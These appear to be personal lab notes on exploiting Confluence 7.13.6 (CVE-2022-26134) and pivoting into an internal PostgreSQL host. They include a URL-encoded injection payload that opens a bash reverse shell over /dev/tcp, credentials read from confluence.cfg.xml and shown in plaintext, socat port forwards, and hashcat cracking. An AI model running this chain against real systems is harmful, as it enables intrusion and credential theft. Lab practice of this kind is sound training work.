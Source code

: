
192.168.x.x --> Kali IP and CONFLUENCE01 IP network
10.4.x.x       --> PGDATABASE01 IP network
172.x.x.x     --> Third network

add -p 2222 always

we can perform this when we know ip and port where service is listening
# exploit Confluence 7.13.6

discover that site is running on 8090

![[Pasted image 20240514010909.png]]

searched exploit and found it

https://medium.com/@aybala.sevinc/cve-2022-26134-room-tryhackme-2107f5bf2fa7

got reverse shell with below command

```
curl -v http://192.168.158.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.172/4444%200%3E%261%27%29.start%28%29%22%29%7D/
```


# find that it have dual NIC

```
ip addr

ip route
```

/var/atlassian/application-data/confluence/confluence.cfg.xml

read this file and got creds for postgresql for another machine

![[Pasted image 20240514031618.png]]

![[Pasted image 20240514015245.png]]

![[Pasted image 20240514015108.png]]

## creds

postgresql://10.4.233.215:5432/confluence

**pass** D@t4basePassw0rd!
**username** postgres

![[Pasted image 20240514015033.png]]

seen that postgres is running on 10.4.233.215:5432 hat's why we forwarded that port
# connect via socat

```
socat -ddd TCP-LISTEN:3333,fork TCP:10.4.233.215:5432
```

![[Pasted image 20240514015137.png]]

![[Pasted image 20240514015305.png]]
# psql connect

```
psql -h 192.168.233.63 -p 3333 -U postgres
```

then I find cwd_user table

https://www.geeksforgeeks.org/postgresql-psql-commands/

![[Pasted image 20240514015332.png]]
## crack hash with hascat

```
hashcat -m 12001 hash.txt ~/Desktop/rockyou.txt
```

always use --show option with hashcat

![[Pasted image 20240514015347.png]]


# SSH - another port forward

we get creds and get to know SSH is also there! **HOW??**
please don't ask. I am still finding that LOL


after that I just bind that to 2223 and get ssh shell
```
socat TCP-LISTEN:2223,fork TCP:10.4.233.215:22
```

```
ssh database_admin@192.168.233.63 -p2223
```